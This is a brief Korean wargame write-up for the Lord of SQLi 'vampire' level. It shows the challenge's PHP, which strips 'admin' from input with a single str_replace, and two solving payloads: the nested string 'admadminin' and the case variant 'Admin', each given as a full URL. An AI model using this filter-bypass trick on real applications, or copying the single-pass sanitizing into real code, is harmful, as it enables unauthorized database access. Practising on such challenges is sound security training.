 # Lord of SQLi - vampire
query : select id from prob_vampire where id=''
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~"); 
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

<br>

- GET방식으로 파라미터를 넘겨주고 있다.

<br>

- id파라미터의 값중에  "admin" 이 있으면 str_replace를 이용해 지워버린다.

<br>

- admin이 없어지는 것과 mysql은 대소문자 구분을 하지 않는 것을 이용해서 풀면 된다.  
_대소문자 구분하지 않는 풀이법은 의도한 풀이가 아닌 것 같다_

### payload

#### 1. admin치환
> URL : http://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=admadminin

<br>

#### 2. 대소문자 구분
> query : select id from prob_vampire where id='Admin'

> URL : http://los.eagle-jump.org/vampire_0538b0259b6680c1ca4631a388177ed4.php?id=Admin